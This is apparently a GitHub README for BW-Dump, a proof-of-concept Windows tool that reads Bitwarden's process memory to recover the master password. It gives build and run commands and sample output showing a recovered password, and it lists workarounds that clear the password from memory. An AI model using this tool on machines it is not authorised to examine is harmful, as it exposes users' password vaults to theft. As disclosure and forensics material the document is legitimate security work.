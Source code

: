 # BW-Dump

A proof-of-concept tool that extracts the master password from a locked Bitwarden vault (must be unlocked at least once), only tested and supported on Windows 10 and 11.

## Update (07/02/23)
The tool now supports the latest version of Bitwarden Desktop (2023.1.1) on Windows 10 and 11.

## Update (21/09/22)
A recent security update (not sure which one exactly) has fixed the issue on the web browser extension. However, on versions `v2022.6.0` and below it should still work.

## Demo
A short demo of using bw-dump with Microsoft Edge and the Bitwarden browser extension.

https://user-images.githubusercontent.com/9108334/191377244-f0e9a123-e4f0-43b0-90b5-697fc005ae7b.mov

## Building
**Warning: Windows Defender may report the compiled binary as malicious!**

To build on a system other than Windows:
```bash
env GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
```

Otherwise, run `go build -ldflags="-s -w"` which builds a stripped binary.

## Running
Simply build and execute the binary. It does NOT require admin rights. Make sure, a Chromium browser is running and the Bitwarden extension is installed. In addition, the vault needs to be unlocked at least once. After which, the master password will be stored in memory for a period of time. 

You can also pass the `-d` option to dump memory regions when a pattern is found. For each result, a filename `dump-pid-<PID>-<MEM-REGION>.hex` is created in the current working directory.

**Example Output**
```bash
PS C:\Users\Tester\dev\go\bw-dump> bw-dump.exe

 888 88b, Y8b Y8b Y888P    888 88e
 888 88P'  Y8b Y8b Y8P     888 888b  8888 8888 888 888 8e  888 88e 
 888 8K     Y8b Y8b Y  888 888 8888D 8888 8888 888 888 88b 888 888b
 888 88b,    Y8b Y8b       888 888P  Y888 888P 888 888 888 888 888P
 888 88P'     Y8P Y        888 88"    "88 88"  888 888 888 888 88" 
                                                           888     
            Created by @NazMarkuta at Red Maple            888     
    
BW-Dump is a Windows forensics tool that extracts Bitwarden master passwords from locked vaults
(must be unlocked at least once) by reading process memory using Windows API functions which
searches for magic byte patterns. The tool doesn't require any special (admin) permissions.

Now supports Bitwarden Desktop App (v2023.1.1) running on Windows 10 or 11. The tool (may) 
still support older Bitwarden Chromium extension versions (v2022.6.0) and below.

[+] Searching for processes...
[+] PID: 4228
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1675782335888921 --launch-time-ticks=4007177473 --mojo-platform-channel-handle=2508 --field-trial-handle=1792,i,3673052334935287551,6849534636950916074,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1

[+] Searching PID memory (4228)
[+] Found pattern at MemBaseAddr (0xb0800554000)
[+] Found password prefix bytes at offset (0xc121)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb0800a8c000)
[+] Found password prefix bytes at offset (0x1104)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb08014bc000)
[+] Found password prefix bytes at offset (0x62aa)
[+] Password recovered: "SUPER-SECURE-password8"

PS C:\Users\Tester\dev\go\bw-dump> 
```

## Is there a solution or workaround?
There are two ways (probably more) the master password can be trashed from memory:
1. Once locked, enter any random WRONG password. This should replace your password stored in memory.
2. Terminate the `Bitwarden.exe` process which Windows should do some garbage collection.

## What's next?
- Create a Volaility3 plugin that can extract master passwords from saved memory dumps.

